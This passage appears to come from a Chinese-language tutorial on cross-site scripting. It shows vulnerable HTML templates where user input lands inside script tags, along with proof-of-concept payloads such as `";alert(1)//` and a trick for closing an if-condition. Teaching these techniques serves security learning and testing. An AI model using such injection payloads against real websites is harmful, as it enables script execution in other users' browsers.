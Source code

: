Payload：`javascript:alert(1)//`

> 1，4，7没有弹框

### script标签中

用户的输入在`<script>` 标签中，从而导致的JS代码执行

1. 一例

```html
<html>
  <script>
    var x = "{{user_input}}";
    ...
  </script>
</html>
```

Payloads：

```
";alert(1)//
"-alert(1)-"
"+alert(1)+"
"*alert(1)*"
```

2. 一例

```html
<html>
  <script>
  var x=123;
  function test(){
      if(test =='{{用户输入}}'){
          //something
      }
      else
      {
      //something
      }
  }
  test();
  </script>
</html>
```

首先用 `test'){//` 封闭条件判断的地方，变成：

```js
function test(){
  if(test == 'test'){//' ){
    // ...
  }else{
    // ...
  }
}
```
